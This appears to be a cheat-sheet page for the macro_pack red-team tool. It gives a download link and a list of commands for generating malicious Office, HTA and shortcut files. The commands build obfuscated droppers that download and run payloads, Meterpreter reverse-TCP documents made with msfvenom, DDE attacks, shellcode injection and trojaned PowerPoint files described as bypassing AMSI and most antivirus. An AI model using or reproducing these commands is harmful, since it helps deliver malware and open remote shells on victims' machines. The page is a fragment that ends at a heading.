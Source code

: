 * [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack/releases/download/v2.0.1/macro_pack.exe)

```powershell
# Options
-G, --generate=OUTPUT_FILE_PATH. Generates a file. 
-t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
-o, --obfuscate Obfuscate code (remove spaces, obfuscate strings, obfuscate functions and variables name)

# Execute a command
echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl

# Download and execute a file
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls

# Meterpreter reverse TCP template using MacroMeter by Cn33liz
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm

# Drop and execute embedded file
macro_pack.exe -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs

# Obfuscate the vba file generated by msfvenom and put result in a new vba file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager vba file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx

# Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xsl

# PRO: Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV).
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm

# PRO: Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass AMSI and most antiviruses.
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --trojan -G  hotpics.pptm

# PRO: Generate an HTA payload able to run a shellcode via Excel injection
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE  --run-in-excel -o -G samples\nicepic.hta
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE -o --hta-macro --run-in-excel -G samples\my_shortcut.lnk

# PRO: XLM Injection
echo "MPPro" | macro_pack.exe -G _samples\hello.doc -t HELLO --xlm --run-in-excel

# PRO: ShellCode Exec - Heap Injection, AlternativeInjection
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=HeapInjection -G test.doc
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=AlternativeInjection --background -G test.doc

# PRO: More shellcodes
```